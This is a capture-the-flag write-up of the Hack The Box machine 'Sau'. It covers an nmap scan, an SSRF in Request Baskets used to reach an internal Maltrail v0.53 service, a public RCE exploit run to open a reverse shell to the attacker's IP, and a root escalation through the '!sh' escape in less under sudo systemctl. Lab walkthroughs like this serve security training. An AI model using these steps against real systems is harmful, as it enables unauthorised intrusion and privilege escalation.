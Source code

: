 ```yaml
---
layout: post
title:  "[HTB] Sau"
date:   2024-01-12
categories: CTF
---
```


<h1>Recon</h1>

Let us start with our nmap scan

---

Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-12 00:26 EST
Nmap scan report for 10.10.11.224
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

---

We can see that we have port 22, 80 and 55555, but port 80 is filtered so we cannot visit this even if we try, so we first try visiting port 55555.

![Alt text](/assets/uploads/htb-sau/2024-01-12 13_29_55.png)

We see that this is Request Baskets and upon searching about this, we find that there is an SSRF issue here that we can leverage.
We can forward port 80 to this request basket. 

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_05_51.png)

Now we can visit visit http://sau.htb:55555/mhvi3fu and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit


<h1>Exploitation</h1>
Let us clone this repository, setup a listener on port 111 and run the exploit to get a reverse shell

---

python3 exploit.py 10.10.14.36 1111 http://sau.htb:55555/mhvi3fu

---

We can now obtain the user flag at /home/puma/user.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_11_48.png)

At this point, let us also upgrade our shell to a pty shell by running

---

python3 -c 'import pty; pty.spawn("/bin/bash")'

---

<h1>Privilege Escalation</h1>

Running sudo -l reveals that we can run sudo on /usr/bin/systemctl status trail.service

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_17_23.png)

So let us do that and we can see that the systemctl is running the less command to show us all the information, so what we can do is to run !sh to exit the terminal and we retain sudo privileges

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_19_25.png)

Now we can just obtain the root flag at /root/root.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_20_27.png)


